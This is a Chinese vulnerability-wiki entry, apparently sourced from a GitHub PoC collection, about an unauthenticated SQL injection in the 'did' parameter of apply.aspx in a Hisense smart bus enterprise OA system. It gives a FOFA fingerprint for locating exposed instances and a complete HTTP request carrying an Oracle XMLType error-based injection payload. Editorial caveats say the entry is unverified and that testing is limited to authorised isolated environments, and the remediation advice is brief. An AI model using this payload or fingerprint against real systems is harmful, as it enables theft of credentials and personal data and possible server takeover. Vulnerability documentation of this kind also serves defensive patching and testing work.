


# 海信智能公交企业管理 OA apply.aspx did SQL注入

## 条目说明

- 对象与具体问题：海信智能公交企业管理；OA apply.aspx did SQL注入
- 版本、配置及部署条件：Oracle XMLType错误型；版本未知
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- POST无体但注入在query did，需明确不是POST表单参数
- YZSoft路径可能嵌入组件，厂商/组件边界需核；无文本返回/在野依据/修复
- 控制服务器为条件后果不是XML错误已证能力

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

海信智能公交企业管理系统 apply.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

海信智能公交企业管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="var _FactoryData"

POC/EXP：

```http
POST /YZSoft/Forms/XForm/OA/apply.aspx?tid=-1&did=-1%27+AND+4208%3D%28SELECT+UPPER%28XMLType%28CHR%2860%29%7C%7CCHR%2858%29%7C%7CCHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%284208%3D4208%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7CCHR%2862%29%29%29+FROM+DUAL%29--+dSSu HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```








## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
